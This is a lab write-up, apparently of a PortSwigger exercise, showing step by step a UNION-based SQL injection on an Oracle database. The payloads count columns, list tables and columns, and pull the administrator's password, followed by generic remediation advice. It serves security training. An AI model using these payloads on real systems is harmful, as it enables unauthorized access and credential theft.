










# Listing the database contents on Oracle database.

**STEP #1**

Determine the number of columns returned by the original query.

```text
' ORDER BY 1--
```



```text
' ORDER BY 2--
```



```text
' ORDER BY 3--
```



```text
' ORDER BY 3--                           → Returns an error message.
```

**Therefore there are 2 columns returned by the original query.**

**STEP #2**

Discover the column that contains the data type string.

**NOTE**

`' UNION SELECT NULL, NULL-- `**returns an error message. Therefore you can make a guess that the database might be Oracle.**



```text
' UNION SELECT 'a', NULL FROM DUAL--
```



```text
' UNION SELECT NULL, 'a' FROM DUAL--
```



```text
' UNION SELECT 'a', NULL FROM DUAL--   →Returns a 200 status code' UNION SELECT NULL, 'a' FROM DUAL--   →Returns a 200 status code
```

Therefore both column 1 and 2 contain that data type string.

**STEP #3**

Determine the table names.

```text
' UNION SELECT TABLE_NAME, NULL FROM ALL_TABLES--
```



Let’s find a table which contains usernames and passwords.



Table name: `USERS_KDXGKJ`

**STEP #4**

Determine the column names of the table** **`USERS_KDXGKJ`**.**

```text
' UNION SELECT COLUMN_NAME, NULL FROM ALL_TAB_COLUMNS WHERE TABLE_NAME = 'USERS_KDXGKJ'--
```



**There are two columns in the table **`USERS_KDXGKJ`**.**

`username: USERNAME_CSUMYK`

`password: PASSWORD_AIOQBO`

---

**STEP #5**

Retrieve the administrator user’s password from the database.

```text
' UNION SELECT USERNAME_CSUMYK, PASSWORD_AIOQBO FROM USERS_KDXGKJ--
```



|  |  |
|---|---|
| administrator | r1xyd5uo3kcovvqm73jl |

Use the password to get administrators access to the web application.

### Why It Works

The vulnerability exists because the application processes user-controlled input without adequate security validation. In this specific lab, the attack succeeds because:

- The application trusts the user input without proper server-side validation
- The input reaches a sensitive operation (database query, HTML rendering, system command, etc.) without sanitization
- The security boundary that should protect the operation is missing or incorrectly implemented
- The specific payload used exploits the exact weakness in the application's input handling

The PortSwigger lab description confirms this: "This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data fro"

### Attack Flow

**Attack Flow:**

```
Attacker Input (payload in request)
        ↓
Application Functionality (processes user input)
        ↓
Server Processing (no validation/sanitization)
        ↓
Injection Point (input reaches sensitive operation)
        ↓
Exploitation (payload executes as intended)
        ↓
Lab Objective Achieved
```

### Real-World Impact

An attacker could extract all database contents (user credentials, personal data, payment cards), bypass authentication, modify database contents, execute OS commands, access other databases on the same server, or cause denial of service.

### Detection / Testing Methodology

1. Identify all input points that interact with the database (search, login, product filters, URL parameters)
2. Test with single quotes (') and SQL-specific characters to detect syntax errors
3. Test for boolean-based blind injection (AND 1=1 vs AND 1=2)
4. Test for time-based blind injection (SLEEP/WAITFOR DELAY)
5. Test for UNION injection by determining column count (ORDER BY)
6. Identify the database type via version-specific syntax
7. Use sqlmap for automated extraction

### Remediation

- Use parameterized queries (prepared statements) for ALL database access
- Use stored procedures with parameterized inputs
- Implement input validation (type, length, format) as defense-in-depth
- Apply least-privilege database accounts (no DROP, xp_cmdshell, or admin access)
- Disable database error messages in production
- Use a Web Application Firewall (WAF) as additional protection

### Key Takeaways

- This lab demonstrates a sql injection vulnerability in a real-world scenario.
- The vulnerability occurs because user input reaches a sensitive operation without proper validation.
- The PortSwigger lab confirms: "This lab contains a SQL injection vulnerability in the product category filter. The results from the"
- Burp Suite is essential for identifying and exploiting this vulnerability.
- The remediation for this specific vulnerability involves: - Use parameterized queries (prepared statements) for ALL database access
